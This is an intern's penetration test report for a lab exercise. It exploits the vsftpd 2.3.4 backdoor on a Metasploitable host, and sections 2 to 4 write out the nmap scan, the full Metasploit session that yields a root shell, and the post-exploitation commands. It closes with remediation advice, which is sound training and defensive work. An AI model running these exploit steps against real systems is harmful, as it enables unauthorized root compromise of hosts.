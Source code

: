 # Penetration Test Report

**Date:** 2025-10-14
**Author:** Aman Jiwani (intern)
**Target / Lab:** Metasploitable (192.168.56.104)
**Scope:** Single-host lab exercise — discover open services and exploit a known backdoor in vsftpd 2.3.4.

---

## Executive summary

A short, focused test was performed against the target host `192.168.56.104`. Open ports and service versions were enumerated using `nmap`. The target was found to be running `vsftpd 2.3.4` (a version with a historically known backdoor). Using Metasploit, the `vsftpd_234_backdoor` exploit was launched, a shell was obtained, and limited post-exploitation commands were executed to validate access (e.g., `whoami`, `pwd`, `ifconfig`). The exploit resulted in a root shell on the host.

**Impact:** Complete system compromise (root) in the lab environment.

**Recommendation (summary):** Immediately upgrade/remove vulnerable vsftpd versions, disable anonymous or untrusted FTP access, apply least privilege and network segmentation, and monitor/alert for suspicious FTP/banner anomalies.

---

## Methodology

Following a standard pentest workflow:

1. **Reconnaissance** — gather host information (IP, up status).
2. **Scanning & Enumeration** — identify open ports and service versions (nmap).
3. **Exploitation** — choose a matching exploit (Metasploit), configure and run it.
4. **Post‑Exploitation** — confirm access and collect evidence (whoami, pwd, ifconfig).
5. **Reporting** — document findings and remediation.

---

## Tools used

* `nmap` — port & service/version detection
* `msfconsole` (Metasploit Framework) — search and run exploit
* Standard shell commands on compromised host: `whoami`, `pwd`, `ifconfig`

---

## 1) Reconnaissance

**Goal:** Identify live hosts and basic reachability.

Example command used (if performed):

```bash
# ping sweep (example)
ping -c 2 192.168.56.104
```

*Result:* Host `192.168.56.104` reachable on the lab network.

---

## 2) Scanning & Enumeration

**Goal:** Discover open TCP ports and service versions.

Command used:

```bash
nmap -sV -p- 192.168.56.104
```

Key finding (abbreviated):

* Port 21/tcp open — `vsFTPd 2.3.4` (banner shown)

This version is known to have an infamous backdoor implant (historical Metasploit module available).

---

## 3) Exploitation

**Goal:** Use a public exploit that targets `vsftpd 2.3.4` to obtain code execution.

**Metasploit session (relevant commands & output):**

```text
┌──(kali㉿kali)-[~]
└─$ msfconsole
... (banner truncated) ...

msf > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

msf > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   RHOSTS                    yes       The target host(s)
   RPORT    21               yes       The target port (TCP)

msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.104
RHOSTS => 192.168.56.104
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 192.168.56.104:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.104:21 - USER: 331 Please specify the password.
[+] 192.168.56.104:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.104:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.105:38181 -> 192.168.56.104:6200) at 2025-10-18 05:49:58 -0400
```

**Interpretation:** Exploit successfully triggered the backdoor and spawned an interactive command shell, which Metasploit routed to the attacker.

---

## 4) Post‑Exploitation

**Goal:** Validate privileges and collect minimal system information as proof-of-access.

Commands executed on the compromised host (evidence captured):

```text
whoami
# output:
root

pwd
# output:
/

ifconfig
# output (abbreviated):
eth0      Link encap:Ethernet  HWaddr 08:00:27:9e:69:23
          inet addr:192.168.56.104  Bcast:192.168.56.255  Mask:255.255.255.0
...
lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
```

**Result:** Confirmed `root` user shell and network interface details, proving full compromise within the lab.

---

## 5) Findings & Risk

### Finding: `vsftpd 2.3.4` with backdoor

* **Severity:** High / Critical (in lab environment resulted in root shell)
* **Evidence:** nmap banner, Metasploit module output, `whoami` showing `root`.
* **CVE / Notes:** This is a historically known backdoor/backdoor-enabled release — remove or update vsftpd to a supported, patched version. (If this were a real production host, treat as urgent.)

---

## Remediation & Mitigations

1. **Upgrade vsftpd** to a supported patched version immediately (or remove FTP service if not required).
2. **Block/limit FTP** access via firewall rules — restrict to trusted IPs only.
3. **Harden service configuration**: disable anonymous login, restrict user shell access, run with least privileges.
4. **Network segmentation**: Do not expose legacy/unpatched services to untrusted networks.
5. **Logging & Monitoring**: Alert on unusual FTP banner changes and on unexpected port 21 connections.
6. **Incident response**: If this were production, isolate the host, collect forensic artifacts, rebuild from trusted image, and rotate any credentials possibly exposed.

---
